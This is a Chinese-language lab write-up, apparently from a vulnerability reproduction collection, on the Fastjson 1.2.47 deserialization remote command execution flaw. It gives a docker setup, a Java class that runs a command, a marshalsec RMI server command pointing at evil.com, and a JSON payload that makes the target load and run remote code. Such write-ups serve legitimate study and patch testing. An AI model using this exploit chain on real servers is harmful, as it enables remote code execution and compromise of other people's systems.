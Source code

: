 # Fastjson 1.2.47 远程命令执行漏洞

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.4版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 漏洞环境

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 漏洞复现

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```

![](1.png)

可见，命令`touch /tmp/success`已成功执行：

![](2.png)

更多利用方法请参考JNDI注入相关知识。
